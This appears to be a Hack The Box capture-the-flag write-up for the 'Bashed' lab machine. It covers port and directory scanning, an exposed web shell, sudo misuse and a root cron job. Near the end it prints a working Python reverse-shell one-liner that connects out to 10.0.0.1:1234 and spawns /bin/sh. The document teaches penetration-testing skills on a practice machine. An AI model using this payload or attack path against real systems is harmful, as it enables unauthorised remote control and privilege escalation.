```yaml
---
title:     "Hack The Box - Bashed"
tags: [linux,easy,sudo,cron]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/1.png)

We are going to pwn Bashed from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/118>


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/2.png)

## Gobuster Results
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/06 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/06 00:29:21 Finished
===============================================================
```

While checking the ``/dev`` there is an ``phpbash.php``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/3.png)

Found 2 users ``arrexel and scriptmanager`` and got user flag too.

## Getting Shell

Now its time to get reverse shell to expore more

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/4.png)
Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/5.png)

## Privilege Escalation

Like always I started with ``sudo -l``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/6.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/7.png)

Now time to get root, I uploaded my Linux Enumeration Script and found some writeable scripts available. 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/8.png)

May be cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

My guess is correct! 

```bash
2019/12/04 07:46:01 CMD: UID=0    PID=2297   | python test.py

2019/12/04 07:46:01 CMD: UID=0    PID=2296   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```
I edited the script
 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/9.png)

`` python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ``

Started my listener on my machine

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/10.png)

I got Root!
